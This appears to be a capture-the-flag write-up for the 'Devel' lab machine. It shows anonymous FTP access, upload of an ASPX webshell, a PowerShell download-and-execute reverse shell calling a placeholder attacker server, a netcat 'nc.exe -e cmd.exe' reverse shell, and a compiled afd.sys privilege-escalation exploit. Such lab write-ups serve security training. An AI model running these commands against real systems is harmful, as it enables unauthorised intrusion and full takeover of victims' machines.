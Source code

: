 <p align="center">
  <img width="300" src="https://user-images.githubusercontent.com/43796175/107217985-ff302900-69dc-11eb-999b-b1da568d1ff9.jpg" alt="DEVEL: Write Up">
</p>


# 01: Information Gathering

For starting, run nmap with a basic scan:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400057-70e89f80-6acf-11eb-95f3-6870ccbbe0b0.jpg"></p>

Two open ports can be seen, 21 FTP and 80 HTTP. Now, run again nmap but this time with an more advanced scan against the ports found:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107400771-274c8480-6ad0-11eb-84f7-7b9a8b83b733.jpg"></p>

In this point, you can think about login in FTP with Anonymous credentials (port 21) and go more deep through HTTP and fuzzing (port 80).

# 02: Threat Modeling

Login in FTP with username and password "Anonymous" is possible:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107401864-4bf52c00-6ad1-11eb-9a7b-f795670ea890.jpg"></p>

Think if you can reach any files in the directory through which you had FTP access. For example, try to get through HTTP request the image "welcome.png":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107403079-b0fd5180-6ad2-11eb-80f8-092abfe6745e.jpg"></p>

Perfect, now you can try upload a webshell and visualize it in the browser:

# 03: Vulnerability Analysis

You can search the webshell necessary simply googling it. I found the next webshell which work fine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413191-77324800-6ade-11eb-9dea-e66478f2d98e.jpg"></p>

<p align="center">https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx</p>

With FTP upload the webshell, using "put" command for this purpose:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413380-b1034e80-6ade-11eb-9557-089ca6cb717b.jpg"></p>

Try to see the webshell through browser, in http://10.10.10.5/cmdasp.aspx:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107413825-34bd3b00-6adf-11eb-825d-a8d618e3ae18.jpg"></p>

You can see that is possible run commands efectly, then the more obviusly thought is get a reverse shell. For this, use Nishang that is a framework and collection of scripts and payloads which enables usage of PowerShell, in concret, you go to use the module of shells PS "Invoke-PowerShellTcp.ps1":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107414596-39362380-6ae0-11eb-84c9-9d326bf577c9.jpg"></p>

<p align="center">https://github.com/samratashok/nishang/tree/master/Shells</p>

# 04: Exploitation

Download the RAW file of this module:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417782-f1190000-6ae3-11eb-8bb1-4e254b43e2b2.jpg"></p>

A good approach is execute the reverseShell in memory, like Nishang project describe:

<p align="center">https://github.com/samratashok/nishang</p>

"*Method 1. Use the in-memory dowload and execute: Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.*"

The next line is used for this:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

Change the value necessary with your VPN IP address and port:

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://<YourVpnIP>:1234/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <YourVpnIP> -Port 1337
```

Configure a python server in port 1234 and netcat listening in the port 1337:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107417029-2cff9580-6ae3-11eb-979b-a16af27eb2cc.jpg"></p>

Paste the code in the webShell and you recive the reverse connection:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418832-2114d300-6ae5-11eb-80d1-e63f9dca3e5d.jpg"></p>

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107418604-dabf7400-6ae4-11eb-95ef-d829c5de8ee1.jpg"></p>

# 05: Post-Exploitation

The first step for me is run "*systeminfo*" command in Windows a look for "Hotfix(s)" in the OS:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107423243-1ad52580-6aea-11eb-9668-1ac1c56fdc78.jpg"></p>

From the above information, you know that:

* OS is Windows 7 Enterprise
* OS Version 6.1.7600
* OS has no anyone Hotfix done

Then, a quickly search in Google gives some one results, you wanna see the results relationated with "*afd.sys*":

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107424736-02fea100-6aec-11eb-9759-3a1110216d4d.jpg"></p>

The vulnerability make reference to the [Ancillary Function Driver](https://file.info/windows/afd_sys.html) (AFD) supports Windows sockets applications and is contained in the afd.sys file. The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol. 

An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.

An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.

An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107425166-a2bc2f00-6aec-11eb-8601-267fe5ab42a9.jpg"></p>

<p align="center">https://www.exploit-db.com/exploits/40564</p>

Download the exploit:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107426493-4ce88680-6aee-11eb-9d37-7a53672b5f7e.jpg"></p>

And now you need compile this exploit with *i686-w64-mingw32-gcc*:

``
i686-w64-mingw32-gcc exploit.c -o okExploit.exe -lws2_32
``

The parameter "*-lws2_32*" specific the library to use for compile:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107426914-d26c3680-6aee-11eb-9bd0-d666c78aec4d.jpg"></p>

Now you can get another revShell from your victim machine to you attacker machine. Search netcat in the path of binaries and configure SMB Server for share the file between machines:

Attacker machine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107429043-7525b480-6af1-11eb-8d44-7c02095fae56.jpg"></p>

Victim machine:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107429386-d9e10f00-6af1-11eb-96fb-f3850a304cab.jpg"></p>

Then, run netcat in both machines for connection:

```
- Victim machine:

.\nc.exe -e cmd.exe <yourVpnIP> <yourPORT>
```

```
- Attacker machine:

nc -lnvp 1338
```

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107429726-3ba17900-6af2-11eb-8b25-bf034e303e16.jpg"></p>

At this point, you have another shell, so you should proceed download the *okExploit.exe* in Devel machine with SMB that was configured before. Let's try run the exploit previously compiled for get a privilege escalation:

<p align="center"><img src="https://user-images.githubusercontent.com/43796175/107430804-a8694300-6af3-11eb-85dc-ecd2474d2ad4.jpg"></p>

And it's gone.
